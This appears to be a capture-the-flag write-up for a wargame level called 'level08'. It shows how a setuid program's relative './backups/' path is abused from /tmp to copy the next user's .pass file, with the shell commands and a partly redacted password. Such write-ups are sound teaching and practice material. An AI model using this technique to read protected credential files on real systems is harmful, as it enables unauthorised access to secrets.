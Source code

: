 # Relative path bypass

## Protection

RELRO | STACK CANARY | NX | PIE
--- | --- | --- | --- 
**Full RELRO** | **Canary found** | NX disable | No PIE 

.got.plt section none writable !

## context

The program open a file argv[1] and its backup located in "./backups/argv[1]".

Problem is we cant write in ./back in $HOME directory:

```bash
$> ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass

mkdir -p ./backups//home/users/level09/.pass
mkdir: cannot create directory `./backups//home': Permission denied
```

Misconfiguration, is, we can write in /tmp/.backups because the specifie a relative path indeed of a full path.

So if i do: 

```bash
$> cd /tmp/
$> mkdir backups
$> echo test > test
$> ~/level08 test
$> cat backups/test 
test
```

It created a backups file called test in the backup directory.

```bash
$> ~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass

$> mkdir -p ./backups//home/users/level09/
$> ~/level08 /home/users/level09/.pass
$> cat backups/home/users/level09/.pass 
fjAwpJNs2[...]
```
